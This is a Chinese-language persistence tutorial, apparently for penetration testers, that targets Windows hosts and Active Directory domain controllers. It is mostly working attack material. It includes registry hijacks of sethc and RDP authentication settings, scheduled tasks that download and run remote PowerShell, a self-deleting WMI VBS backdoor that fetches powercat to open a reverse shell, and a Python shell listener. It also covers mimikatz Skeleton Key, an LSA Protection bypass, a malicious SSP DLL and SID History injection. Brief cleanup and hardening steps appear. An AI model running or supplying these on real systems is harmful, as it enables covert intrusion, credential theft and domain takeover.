





# [](#%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81)权限维持

## [](#1-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F%E5%90%8E%E9%97%A8)1 操作系统后门

### [](#11-%E7%B2%98%E6%BB%9E%E9%94%AE%E5%90%8E%E9%97%A8)1.1 粘滞键后门

#### [](#111-%E4%BC%A0%E7%BB%9F%E6%96%B9%E6%B3%95)1.1.1 传统方法

> 在 windows/system32 下，直接将 sethc 程序替换成 cmd.exe

如果目标机是 `windows vista` 以上的，即 `windows vista` 以后出的系统，修改 sethc 会提示需要 `trustedinstaller` 权限，`trustedinstaller` 是一个安全机制，即系统的最高权限，权限比 `administrator` 管理员高.

windows 权限分为三种从低到高依次是 user，administrator，system。而 trustedinstaller 比 administrator 高但没有 system 高，这么做的好处是避免了一些恶意软件修改系统文件的可能，坏处就是自己不能直接操作了，所以要先修改 sethc 需要将其所有者改为改为我们当前管理员用户。


在该所有者之前，直接编辑其权限都是灰色的，不能修改，有了所有权之后，便可以编辑其权限，这里需要给予自己权限，如下图：


这时可以重命名，也可以直接删除，然后复制 cmd 修改 sethc 即可，然后在锁屏没有密码情况下，可以直接按 5 下 shift 调出 cmd，执行添加新用户等操作，如下图：

#### [](#112-%E6%96%B0%E6%96%B9%E6%B3%95)1.1.2 新方法

新方法设置粘滞键后门是通过注册表来实现，整体的方法思路就是`通过修改注册表的映像劫持`和`打开其远程桌面`来实现。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"<br>``` |

**命令说明**：reg add 是向注册表添加记录，后面跟的是注册表的位置，这里需要注意的是 HKLM 实际上是 HKEY\_LOCAL\_MACHINE 的缩写。Image File Execution Option 这个目录就是用来设置镜像劫持的，要被劫持的就是命令中的 sethc 粘滞键程序，随后通过 /v 来指定键名，这个键名 debugger 是固定的，然后通过 /t 来指定类型，即 REG\_SZ 字符串类型，最后通过 /d 来指定键的值，即被恶意替换的程序，也就是我们的 cmd。

设置完镜像劫持后就已经有了我们旧方法中直接替换 sethc 程序的效果，但我们为了方便利用，可以开启目标机的远程桌面，这里我们也通过注册表来设置一下，需要设置两个参数。


##### [](#1121-%E5%85%B3%E9%97%AD-rdp-%E7%94%A8%E6%88%B7%E9%89%B4%E5%AE%9A%E9%80%89%E9%A1%B9)1.1.2.1 关闭 RDP 用户鉴定选项

第一个是把远程桌面链接的用户鉴定选项设置为关闭状态，即值为 0，命令行运行以下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0<br>``` |

用户鉴权即 userauthentication 这个参数的作用：

`0` 的说明是进行远程桌面前不需要用户身份验证，还是默认值，`1` 说明的是进行远程桌面前需要进行用户身份验证。为了更好的理解，我们来看下他们的区别，下面是 userauthentication 为 1 的时候：



当 userauthentication 为 1 时即远程桌面前进行用户身份验证，这时候远程链接输入 ip 后会要求输入用户名和密码，输入用户名不输入密码直接点连接会提示身份验证错误。而当 userauthentication 为 0 时，即连接前不进行身份验证，这时候输入用户名不输入密码点连接会直接到远程桌面的锁屏那一步。所以设置为 0 我们可以直接到目标的锁屏然后调起 cmd。

`注`：在 windows server 2012 上默认为 `0`

##### [](#1122-%E6%9B%B4%E6%94%B9-rdp-%E5%AE%89%E5%85%A8%E5%B1%82%E8%AE%BE%E7%BD%AE)1.1.2.2 更改 RDP 安全层设置

第二个是把远程桌面连接的安全层设置为 0，命令行运行以下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0<br>``` |

0 就是连接前使用 RDP 协议进行身份验证，RDP 即远程桌面连接，可以简单理解为就是关闭验证。1 是指在连接前两端协商来进行身份验证，这个是默认值。2 就是使用 tls 协议来进行。来看下 0 和 1 的区别：


在 userauthentication 用户鉴权为 0 的情况下，securitylayer 安全层为 1 的时候是点击连接后输入用户名然后再点连接到目标桌面，而把 securitylayer 改为 0 时，点击连接，会直接到用户的锁屏桌面，省去了输入凭证那一步。所以我们设置为 0，可以直接跳到锁屏桌面调 cmd。

`注`：在 windows server 2012 上默认为 `1`

#### [](#113-%E6%B5%8B%E8%AF%95%E7%BB%93%E6%9E%9C)1.1.3 测试结果

经过测试，在 win10 上 RDP 连接断开时 msf 的会话立刻断开，在 windows server 2008 上成功。

### [](#12-%E6%B3%A8%E5%86%8C%E8%A1%A8%E5%90%8E%E9%97%A8)1.2 注册表后门

> Run：该项下的键值即为开机启动项

位置：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run<br>``` |

msf 下的命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use exploit/windows/local/persistence<br>``` |

### [](#13-%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E5%90%8E%E9%97%A8)1.3 计划任务后门

-   schtasks
    -   /Create 创建新任务。
    -   /Delete 删除计划任务。
    -   /Query 显示所有计划任务。
    -   /Change 更改计划任务属性。
    -   /Run 按需运行计划任务。
    -   /End 中止当前正在运行的计划任务。
    -   /ShowSid 显示与计划的任务名称相应的安全标识符。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```powershell<br># schtasks 命令<br># 每天晚上 03:30 定时执行<br>schtasks /create /tn "TimedTask1" /tr C:\Users\Administrator\Desktop\TimedTask\Run.bat /sc DAILY /st 03:30 <br># statement A<br><br># 查询创建的任务<br>schtasks /query /tn TimedTask1 /v<br><br># 立即运行创建的任务<br>schtasks /run /tn TimedTask1<br><br># 删除任务<br>schtasks /delete /tn TimedTask1<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```powershell<br>#(X64) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br> <br>#(X64) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br> <br>#(X86) - On User Login<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System<br>  <br>#(X86) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br>  <br>#(X86) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br>``` |

### [](#14-wmi-%E6%97%A0%E6%96%87%E4%BB%B6%E5%90%8E%E9%97%A8)1.4 wmi 无文件后门

evil3.vbs -> 恶意VBS脚本。创建事件过滤器，捕获账户成功登陆的事件；创建活动脚本事件消费者，捕获到事件后执行远程脚本pnc.js;绑定过滤器和消费者。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>nslink="winmgmts:\\.\root\subscription:"<br><br>qstr="select * from __InstanceCreationEvent within 5 "        '每5秒查询一次“实例创建事件”'<br>qstr=qstr&"where targetinstance isa 'win32_NTLogEvent' and "<br>qstr=qstr&"targetinstance.EventCode='4624' "                  '实例名是win32_NTLogEvent'<br><br><br>set evtflt=getobject(nslink&"__EventFilter").spawninstance_   '创建事件过滤器'<br>evtflt.name="filtP1"                                          '定义过滤器的名字'<br>evtflt.EventNameSpace="root\cimv2"<br>evtflt.query=qstr                                             '定义查询语句'<br>evtflt.querylanguage="wql"                                    '定义查询语言(只能是wql)'<br>set fltpath=evtflt.put_                                       '注册过滤器，返回其链接'<br><br>set asec=getobject(nslink&"ActiveScriptEventConsumer").spawninstance_   '创建“活动脚本事件消费者”'<br>asec.name="consP1"                                                      '定义消费者的名字'<br>asec.scriptingengine="JScript"                                          '定义脚本语言<br>asec.ScriptText="GetObject(""script:http://192.168.41.1:8080/pnc.js"")"<br>set asecpath=asec.put_                                                  '注册消费者，返回其链接'<br><br>set fcbnd=getobject(nslink&"__FilterToConsumerBinding").spawninstance_  '创建过滤器和消费者的绑定'<br>fcbnd.filter=fltpath.path                                               '指定过滤器'<br>fcbnd.consumer=asecpath.path                                            '指定消费者'<br>fcbnd.put_                                                              '执行绑定'<br><br>dim fso<br>set fso = CreateObject("Scripting.FileSystemObject")<br>evilname=left(wscript.scriptfullname,instrrev(wscript.scriptfullname,"\")) <br>evilname=evilname& fso.GetFile(Wscript.scriptfullname).name<br>fso.DeleteFile(evilname) 'vbs删除自己<br>``` |

pnc.js -> 服务端恶意脚本。下载powercat.ps1，并使用其返回shell。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```javascript<br><?xml version="1.0"?><br><br><package><br><component id="testCalc"><br><br><script language="JScript"><br><br>var r = new ActiveXObject("WScript.Shell").Run("powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.41.1:8080/powercat-master/powercat.ps1');powercat -c 192.168.41.1 -p 6999 -e cmd"); <br><br></script><br><br></component><br></package><br>``` |

shell\_server.py -> 服务端监听shell的脚本。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```python<br>import socket<br>import re<br><br>pattern = re.compile(r'[A-Z]:\\.*?>')<br>def recv_end(the_socket):<br>    total_data = []<br>    data = b''<br>    while True:<br>            data = the_socket.recv(1024)<br>            #print(data)<br>            if not data:<br>                raise ConnectionAbortedError<br>            data = str(data, encoding = 'gbk')<br>            total_data.append(data)<br>            if pattern.search(data, re.M):<br>                break<br>            if len(total_data) > 1:<br>                last_pair = total_data[-2] + total_data[-1]<br>                if pattern.search(last_pair, re.M):<br>                    break<br>    return ''.join(total_data)<br><br># 建立一个服务端<br>server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>port = 6999<br>server.bind(('192.168.41.1', port)) #绑定要监听的端口<br>server.listen(5) #开始监听 表示可以使用五个链接排队<br>while True:# conn就是客户端链接过来而在服务端为期生成的一个链接实例<br>    print('------------Listening on {}------------'.format(port))<br>    conn, addr = server.accept() #等待链接,多个链接的时候就会出现问题,其实返回了两个值<br>    print(conn)<br>    while True:<br>        try:<br>            se = input(recv_end(conn))<br>            if not se:<br>                se = '\r\n'<br>            #print(bytes(se, encoding = "utf8"))<br>            conn.send(bytes(se, encoding = 'utf-8')) #然后再发送数据<br>        except BaseException as e:<br>            print('\n' + addr[0] + ':' + str(addr[1]) + '已关闭')<br>            break<br>    conn.close()           # 关闭连接<br>``` |

powercat.ps1 -> powershell版netcat。([https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat))

clean.ps1 -> 清除evil3.vbs创建的过滤器、消费者、绑定器。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```powershell<br>#Filter<br>Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='filtP1'" \| Remove-WmiObject -Verbose<br><br>#Consumer<br>Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='consP1'" \| Remove-WmiObject -Verbose<br><br>#Binding<br>Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%filtP1%'" \| Remove-WmiObject -Verbose<br>``` |

## [](#2-%E5%9F%9F%E6%8E%A7%E5%90%8E%E9%97%A8)2 域控后门

### [](#21-dsrm-%E5%90%8E%E9%97%A8)2.1 DSRM 后门

DSRM(Directory Services Restore Mode) 是 Windows 域环境中域控制器的安全模式启动选项。每个域控制器有一个**本地管理员**账号(也就是 DSRM 账号)。DSRM 的用途是:允许管理员在域环境出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM 的密码需要在安装 DC 时设置，且很少会被重置。修改 DSRM 密码最基本的方法是在 DC 上运 ntdsutil 行命令。

在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。如果域控制器的系统版本为 Windows Server 2008，则需要安装 KB96132 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。在 Windows Server 2008 以后版本的系统中不需要安装此补丁。如果域控制器的系统版本为 Windows Server 2003，则不能使用该方法进行持久化操作。

我们知道，每个 DC 都有本地管理员(administrator)账号和密码。DSRM 账号可以作为 DC 的本地管理员用户，通过网络连接 DC，进而控制 DC。

在 DC 上，DSRM 账号的表现形式是本地的 administrator 用户，也就是说本地 administrator 用户 = DSRM 账号

#### [](#211-%E4%BF%AE%E6%94%B9-dsrm-%E5%AF%86%E7%A0%81%E7%9A%84%E6%96%B9%E6%B3%95)2.1.1 修改 DSRM 密码的方法

1.  微软公布了修改DSRM密码的方法。在域控上打开命令行环境，常用命令如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br># NTDSUTIL：打开ntdsutil<br>set DSRM password # ：修改DSRM的密码<br>reset password on  server null # 在当前域控制器上重置DSRM的密码<br># q(第1次)：退出DSRM密码设置模式<br># q(第2次)：退出ntdsutil<br>``` |

2.  如果域控制器的系统版本为 Windows Server 2008(已安装KB961320)及以上，可以将 DSRM 密码同步为已存在的域账号密码。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br>NTDSUTIL # 打开ntdsutil<br>set DSRM password # 修改 DSRM 的密码<br>sync from domain account # 域用户名字：使DSRM的密码和指定域用户的密码同步<br># q(第1次)  退出DSRM密码设置模式<br># q(第2次)  退出ntdsutil<br>``` |

#### [](#212-%E8%AE%BE%E7%BD%AE-dsrm-%E5%90%8E%E9%97%A8)2.1.2 设置 DSRM 后门

##### [](#2121-%E7%9B%B4%E6%8E%A5%E4%B8%BA-dsrm-%E8%AE%BE%E7%BD%AE%E6%96%B0%E5%AF%86%E7%A0%81)2.1.2.1 直接为 DSRM 设置新密码

1.  为 DSRM 设置新密码，获取 NTLM 哈希值，修改 DSRM 登录方式，使用哈希传递攻击域控
    
2.  查看 SAM 文件中本地管理员 administrator 的 NTLM 哈希值
    

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```powershell<br>privilege::debug<br>token::elevate<br>lsadump::sam<br>``` |

3.  修改 DSRM 的登录方式

DSRM 有三种登录方式，具体如下：

> 0：默认值，只有当域控制器重启并进入 DSRM 模式时，才可以使用 DSRM 管理员账号 1：只有当本地 AD、DS 服务停止时，才可以使用 DSRM 管理员账号登录域控制器 2：在任何情况下，都可以使用 DSRM 管理员账号登录域控制器

在 Windows Server 2000 以后的版本操作系统中，对 DSRM 使用控制台登录域控制器进行了限制。如果要使用 DSRM 账号通过网络登录域控制器，需要将该值设置为 `2`。输入如下命令，可以使用 PowerShell 进行更改。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD<br>``` |

4.  使用本地 administrator 账号哈希传递攻击域控

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>sekurlsa::pth /domain:DC /user:administrator /ntlm:0f0de1776a3bf0f2a29b6f15b6fcba42<br>``` |

##### [](#2122-%E5%B0%86-dsrm-%E7%9A%84%E5%AF%86%E7%A0%81%E5%90%8C%E6%AD%A5%E4%B8%BA%E4%B8%80%E4%B8%AA%E5%9F%9F%E7%94%A8%E6%88%B7%E7%9A%84%E5%B7%B2%E7%9F%A5%E5%AF%86%E7%A0%81)2.1.2.2 将 DSRM 的密码同步为一个域用户的已知密码

其余方法同上。

### [](#22-skeleton-key-%E4%B8%87%E8%83%BD%E5%AF%86%E7%A0%81)2.2 Skeleton Key 万能密码

> Skeleton Key 被安装在 64 位的域控服务器上 支持 Windows Server2003 — Windows Server2012 R2 能够让所有域用户使用同一个万能密码进行登录 现有的所有域用户使用原密码仍能继续登录 重启后失效

使用 Skeleton Key 攻击时，NTLM、Kerberos 两种身份验证方法都会被篡改。 例如，在NTLM身份验证期间，已注入 LSASS 进程中的主密码哈希将不会与SAM数据库进行比较，而将与 Skeleton Key 哈希进行比较，因此，身份验证将成功。

Kerberos 加密也将降级为不支持 Salt（RC4\_HMAC\_MD5）的算法，并且从活动目录中检索到的哈希将替换为 Skeleton Key 哈希。 因此，主密码的哈希值将始终在服务器端进行验证，并且两种方法的身份验证都将成功。

#### [](#221-%E5%9C%A8%E5%9F%9F%E6%8E%A7%E4%B8%8A%E5%AE%89%E8%A3%85-skeleton-key)2.2.1 在域控上安装 Skeleton Key

mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::skeleton<br>``` |



#### [](#222-%E5%9C%A8%E5%9F%9F%E5%86%85%E4%B8%BB%E6%9C%BA%E4%BD%BF%E7%94%A8-skeleton-key-%E7%99%BB%E5%BD%95)2.2.2 在域内主机使用 Skeleton Key 登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>net use \\dc.pentest.domain mimikatz /user:administrator@pentest.domain<br>dir \\DC.pentest.domain\c$<br>``` |


#### [](#223-%E6%9D%83%E9%99%90%E6%B5%8B%E8%AF%95)2.2.3 权限测试

-   使用域内不存在的用户 + Skeleton Key 登录
    -   无法登录
-   使用域内普通权限用户登录
    -   使用域内普通权限用户无法访问域控

结论：

> Skeleton Key 只是给所有账户添加了一个万能密码，无法修改账户的权限

#### [](#224-lsa-protection)2.2.4 LSA Protection

微软在 2014 年 3 月 12 日添加了 LSA 保护策略，用来防止对进程 `lsass.exe` 的代码注入，这样一来就无法使用 mimikatz 对 lsass.exe 进行注入，相关操作也会失败。

**适用系统：**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>Windows 8.1<br>Windows Server 2012 R2<br>``` |

使用 Windows Server 2012 进行测试

##### [](#2241-%E9%85%8D%E7%BD%AE-lsa-protection)2.2.4.1 配置 LSA Protection

注册表位置： `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`

新建 `DWORD` 值，名称为：`RunAsPPL` ，数值为十六进制的 `00000001`

添加完毕后，需要**重启系统**


##### [](#2242-%E6%B5%8B%E8%AF%95-lsa-protection)2.2.4.2 测试 LSA Protection



#### [](#225-%E7%BB%95%E8%BF%87-lsa-protection)2.2.5 绕过 LSA Protection

Mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>privilege::debug<br>!+<br>!processprotect /process:lsass.exe /remove<br>misc::skeleton<br>``` |



### [](#23-ssp-%E5%8A%AB%E6%8C%81)2.3 SSP 劫持

**SSP**

> SSP (Security Support Provider)，是 windows 操作系统安全机制的提供者。简单的说，SSP 就是 DLL 文件，主要用于 windows 操作系统的身份认证功能，例如 NTLM、 Kerberos、Negotiate、Secure Channel(Schannel)、 Digest、Credential(CredSSP)

**SSPI**

> SSPI(Security Support Provider Interface)是 windows 操作系统在执行认证操作时使用的 API 接口。可以说 SSPI 就是 SSP 的 API 接口。

**LSA**

> Local Security Authority，用于身份认证，常见进程为 lsass.exe

如果获得目标系统 system 权限，可以使用该方法进行持久化操作。其主要原理是：LSA(Local Security Authority)用于身份验证。Isass.exe 作为 windows 的系统进程，用于本地安全和登录策略；

在系统启动时，SSP 将被加载到 lsass.exe 进程中。但是，假如攻击者对 LSA 进行了扩展，自定义了恶意的 DLL 文件在系统启动时将其加载到 lsass.exe 进程中，就能够获取 lsass.exe 进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。

#### [](#231-mimilib-ssp)2.3.1 mimilib SSP

> 由于是针对本机的 LSA 进行 Patch，因此本方法只针对在当前机器上登录的用户起作用

##### [](#2311-%E9%80%9A%E8%BF%87%E5%86%85%E5%AD%98%E6%9B%B4%E6%96%B0%E7%95%99%E5%90%8E%E9%97%A8%E4%B8%B4%E6%97%B6)2.3.1.1 通过内存更新留后门（临时）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::memssp<br>``` |



##### [](#2312-%E9%80%9A%E8%BF%87%E4%BF%AE%E6%94%B9%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%95%99%E5%90%8E%E9%97%A8%E6%B0%B8%E4%B9%85)2.3.1.2 通过修改注册表留后门（永久）

使用此方法即使系统重启，也不会影响到持久化的效果

1.  添加 `mimilib.dll` 到域控 `C:\windows\system32` 下

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>copy mimilib.dll %systemroot%\system32<br>``` |

> **注：**
> 
> 64 位系统要用 64 位的 mimilib.dll，32 位的会失败

2.  设置 SSP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"<br>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ<br>``` |

3.  重启系统

域控重启后在 `c:\windows\system32` 可看到新生成的文件 `kiwissp.log`

### [](#24-sid-history-%E5%9F%9F%E5%90%8E%E9%97%A8)2.4 SID History 域后门

> 每个用户帐号都有一个关联的安全标识符（简称SID），SID 用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持 AD 迁移，微软设计了 SID History 属性，SID History 允许另一个帐户的访问被有效的克隆到另一个帐户。通过 SID History 可让用户拥有不同身份的权限，在单域中同样有效。

SID History 是在域迁移过程中需要使用的一个属性。

如果将 A 域中的域用户迁移到 B 域中，那么在 B 域中该用户的 SID 会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。

**SID History 的作用是在域迁移过程中保持域用户的访问权限**，即如果迁移后用户的 SID 改变了，系统会将其原来的 SID 添加到迁移后用户的 SID History 属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源。

使用 mimikatz，可以将 SID History 属性添加到域中任意用户的 SID History 属性中。在实战中，如果获得了域管理员权限，则可以将 SID History 作为实现持久化的方法。

#### [](#241-%E6%B7%BB%E5%8A%A0-sid-history-%E5%90%8E%E9%97%A8)2.4.1 添加 SID History 后门

打开一个具有域管理员权限的命令行窗口，然后打开 mimikatz，将 administrator 的 SID 添加到 hack 用户的 SID History 属性中。

> 需要注意的是，在使用 mimikatz 注入 SID 之前，需要使用 sid::patch 命令修复 NTDS 服务，否则无法将高权限的 SID 注入低权限用户的 SID History 属性

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::add /new:administrator /sam:test" "exit"<br># 将 administrator 的 SID 添加到 hack 的 SID History 属性中<br>``` |

#### [](#242-%E6%9F%A5%E7%9C%8B-sid-history)2.4.2 查看 SID History

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module activedirectory<br>Get-ADUser hack -Properties sidhistory<br>``` |

#### [](#243-%E6%B8%85%E9%99%A4-sid-history)2.4.3 清除 SID History

|     |     |     |
